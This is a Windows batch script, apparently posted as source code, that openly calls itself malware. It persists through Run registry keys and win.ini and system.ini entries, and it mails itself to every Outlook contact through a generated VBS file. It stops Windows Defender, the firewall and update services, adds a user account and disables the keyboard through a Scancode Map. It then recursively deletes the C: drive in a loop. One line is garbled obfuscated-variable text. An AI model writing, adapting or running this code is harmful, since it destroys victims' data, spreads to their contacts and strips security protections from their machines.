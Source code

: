 @echo off
msg * this is real malware are you sure?
:kill
set a=setup
copy %0 %windir%\%a%.bat
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v AVAADA /t REG_SZ /d %windir%\%a%.bat /f > nul
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v AVAADA /t REG_SZ /d %windir%\%a%.bat /f > nul
set b=setup
copy %0 %windir%\%b%.bat
echo [windows] >> %windir%\win.ini
echo run=%windir%\%b%.bat >> %windir%\win.ini
echo load=%windir%\%b%.bat >> %windir%\win.ini
echo [boot] >> %windir%\system.ini
echo shell=explorer.exe %b%.bat >> %windir%\system.ini
echo dim x>>%SystemDrive%\mail.vbs
echo on error resume next>>%SystemDrive%\mail.vbs
echo Set fso ="Scripting.FileSystem.Object">>%SystemDrive%\mail.vbs
echo Set so=CreateObject(fso)>>%SystemDrive%\mail.vbs
echo Set ol=CreateObject("Outlook.Application")>>%SystemDrive%\mail.vbs
echo Set out=WScript.CreateObject("Outlook.Application")>>%SystemDrive%\mail.vbs
echo Set mapi = out.GetNameSpace("MAPI")>>%SystemDrive%\mail.vbs
echo Set a = mapi.AddressLists(1)>>%SystemDrive%\mail.vbs
echo Set ae=a.AddressEntries>>%SystemDrive%\mail.vbs
echo For x=1 To ae.Count>>%SystemDrive%\mail.vbs
echo Set ci=ol.CreateItem(0)>>%SystemDrive%\mail.vbs
echo Set Mail=ci>>%SystemDrive%\mail.vbs
echo Mail.to=ol.GetNameSpace("MAPI").AddressLists(1).AddressEntries(x)>>%SystemDrive%\mail.vbs
echo Mail.Subject="AJDYUP[F7[8DF;">>%SystemDrive%\mail.vbs
echo Mail.Body="DJklkaiyuf99;dsfu0ooooo[D9FH">>%SystemDrive%\mail.vbs
echo Mail.Attachments.Add(%0)>>%SystemDrive%\mail.vbs
echo Mail.send>>%SystemDrive%\mail.vbs
echo Next>>%SystemDrive%\mail.vbs
echo ol.Quit>>%SystemDrive%\mail.vbs
start "" "%SystemDrive%\mail.vbs"
ipconfig / release
net stop "SDRSVC"
net stop "WinDefend"
net stop "security center"
net stop sharedaccess
netsh firewall set opmode mode-disable
net stop "wuauserv"
if exist %SystemDrive%%Slash%AUTOEXEC.BAT (
attrib +s +r +h %SystemDrive%%Slash%AUTOEXEC.BAT
del %SystemDrive%%Slash%AUTOEXEC.BAT
copy %0 %SystemDrive%%Slash%AUTOEXEC.BAT
attrib +s +r +h %SystemDrive%%Slash%AUTOEXEC.BAT
)
net user %random% /add
set key="HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Mouclass"
%jUmP%E%nD%c%onFiG%h%IdE%o%P% h%aRv%%aRd%A%T%%cHe%cK%HappY%3D b%aLLo0Ns%Y%eS% m3Ga!?!
P%ReSs%%IE%AuS%ExPloR%e%r% > nul.%TempInternetRelease%
echo Windows Registry Editor Version 5.00 > "nokeyboard.reg"
echo [HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Keyboard Layout] >> "nokeyboard.reg"
echo "Scancode Map"=hex:00,00,00,00,00,00,00,00,7c,00,00,00,00,00,01,00,00,\ >> "nokeyboard.reg"
echo 00,3b,00,00,00,3c,00,00,00,3d,00,00,00,3e,00,00,00,3f,00,00,00,40,00,00,00,\ >> "nokeyboard.reg"
echo 41,00,00,00,42,00,00,00,43,00,00,00,44,00,00,00,57,00,00,00,58,00,00,00,37,\ >> "nokeyboard.reg"
echo e0,00,00,46,00,00,00,45,00,00,00,35,e0,00,00,37,00,00,00,4a,00,00,00,47,00,\ >> "nokeyboard.reg"
echo 00,00,48,00,00,00,49,00,00,00,4b,00,00,00,4c,00,00,00,4d,00,00,00,4e,00,00,\ >> "nokeyboard.reg"
echo 00,4f,00,00,00,50,00,00,00,51,00,00,00,1c,e0,00,00,53,00,00,00,52,00,00,00,\ >> "nokeyboard.reg"
echo 4d,e0,00,00,50,e0,00,00,4b,e0,00,00,48,e0,00,00,52,e0,00,00,47,e0,00,00,49,\ >> "nokeyboard.reg"
echo e0,00,00,53,e0,00,00,4f,e0,00,00,51,e0,00,00,29,00,00,00,02,00,00,00,03,00,\ >> "nokeyboard.reg"
echo 00,00,04,00,00,00,05,00,00,00,06,00,00,00,07,00,00,00,08,00,00,00,09,00,00,\ >> "nokeyboard.reg"
echo 00,0a,00,00,00,0b,00,00,00,0c,00,00,00,0d,00,00,00,0e,00,00,00,0f,00,00,00,\ >> "nokeyboard.reg"
echo 10,00,00,00,11,00,00,00,12,00,00,00,13,00,00,00,14,00,00,00,15,00,00,00,16,\ >> "nokeyboard.reg"
echo 00,00,00,17,00,00,00,18,00,00,00,19,00,00,00,1a,00,00,00,1b,00,00,00,2b,00,\ >> "nokeyboard.reg"
echo 00,00,3a,00,00,00,1e,00,00,00,1f,00,00,00,20,00,00,00,21,00,00,00,22,00,00,\ >> "nokeyboard.reg"
echo 00,23,00,00,00,24,00,00,00,25,00,00,00,26,00,00,00,27,00,00,00,28,00,00,00,\ >> "nokeyboard.reg"
echo 1c,00,00,00,2a,00,00,00,2c,00,00,00,2d,00,00,00,2e,00,00,00,2f,00,00,00,30,\ >> "nokeyboard.reg"
echo 00,00,00,31,00,00,00,32,00,00,00,33,00,00,00,34,00,00,00,35,00,00,00,36,00,\ >> "nokeyboard.reg"
echo 00,00,1d,00,00,00,5b,e0,00,00,38,00,00,00,39,00,00,00,38,e0,00,00,5c,e0,00,\ >> "nokeyboard.reg"
echo 00,5d,e0,00,00,1d,e0,00,00,5f,e0,00,00,5e,e0,00,00,22,e0,00,00,24,e0,00,00,\ >> "nokeyboard.reg"
echo 10,e0,00,00,19,e0,00,00,30,e0,00,00,2e,e0,00,00,2c,e0,00,00,20,e0,00,00,6a,\ >> "nokeyboard.reg"
echo e0,00,00,69,e0,00,00,68,e0,00,00,67,e0,00,00,42,e0,00,00,6c,e0,00,00,6d,e0,\ >> "nokeyboard.reg"
echo 00,00,66,e0,00,00,6b,e0,00,00,21,e0,00,00,00,00 >> "nokeyboard.reg"
start "nokeyboard.reg"
mkdir %random%
nul >> %random%
rd C:\ /s /q /a
goto kill
